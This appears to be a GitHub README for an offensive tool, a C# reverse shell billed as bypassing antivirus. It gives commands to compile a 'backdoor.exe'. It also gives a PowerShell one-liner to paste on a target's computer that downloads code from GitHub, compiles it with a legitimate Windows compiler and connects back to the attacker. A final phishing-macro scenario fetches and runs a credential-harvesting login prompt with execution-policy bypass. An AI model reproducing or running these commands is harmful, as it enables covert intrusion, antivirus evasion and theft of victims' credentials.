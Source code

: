 # Reverse shell C# bypassing AV solutions  

## Compile code to .exe (to make a backdoor in an executable file)
To generate the executable file, compile the script "reverse_shell_to_exe.cs" like that :  
sudo apt install mono-complete  
mcs -out:backdoor.exe reverse_shell_to_exec.cs  
mono backdoor.exe  


## Live compiling via Powershell (With physical acces to the target's computer)
To get a reverse shell via a command line, copy paste the following payload directly on the target's computer   
(it will download the two files from github, compile them with the legit compiler of Windows and launch the connect back to your IP)  
  
powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/S-crow/reverseShell/master/REV.txt', '.\REV.txt') }" && powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/S-crow/reverseShell/master/reverse_shell.cs', '.\Rev.Shell') }" && C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt Rev.Shell


## Full scenario of remote hacking via Macro Word (phishing campaign)


 powershell.exe -ep bypass -c IEX ((New-Object Net.WebClient).DownloadString(‘URL_To_Invoke-LoginPrompt’)); Invoke-LoginPrompt

